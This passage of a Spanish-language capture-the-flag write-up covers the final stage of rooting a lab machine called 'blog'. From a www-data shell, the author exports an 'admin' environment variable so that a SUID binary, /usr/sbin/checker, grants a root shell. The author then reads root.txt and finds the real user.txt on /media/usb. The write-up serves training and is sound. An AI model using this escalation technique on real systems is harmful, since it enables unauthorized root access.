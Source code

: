 Desde la shell `www-data` que obtuvimos en el Paso 10, establecemos la variable de entorno `admin` a cualquier valor y ejecutamos el binario:

<img width="766" height="386" alt="cambiando la variable admin ya soy root y tengo la falg root" src="https://github.com/user-attachments/assets/9cfd7d0d-8952-476a-9bbd-19ab93c85788" />

**Comandos utilizados:**

```bash
www-data@blog:/var/www/wordpress$ export admin=admin
www-data@blog:/var/www/wordpress$ /usr/sbin/checker
````
Resultado: El binario detecta la variable admin, llama a setuid(0) y nos otorga una shell con privilegios de root (root@blog).

13.2 Captura de la Flag de Root (root.txt)

Una vez como root, la flag final suele encontrarse en el directorio /root.

Comandos utilizados:

````
bash
root@blog:/var/www/wordpress# cd /root
root@blog:/root# ls
root.txt
root@blog:/root# cat root.txt
9a0l...
````
FLAG DE ROOT CAPTURADA: 9a0l...[Contenido Oculto]

13.3 Captura de la Flag de Usuario Real (user.txt)

Aunque el primer user.txt fue un señuelo, ahora que tenemos privilegios de root, podemos buscar la flag real del usuario en todo el sistema.

<img width="457" height="132" alt="utilizo comando find para buscar la flag user" src="https://github.com/user-attachments/assets/3ac7fe97-f6b5-4ad4-9bff-df15d39a49fe" />

Comando utilizado:

````
bash
root@blog:/root# find / -name user.txt 2>/dev/null
````
Resultado del find: La flag real del usuario se encuentra en una ubicación inusual: /media/usb/user.txt.

Comandos utilizados:
````
Bash
root@blog:/root# cat /media/usb/user.txt
c842...
````
FLAG DE USUARIO CAPTURADA: c842...[Contenido Oculto]

---
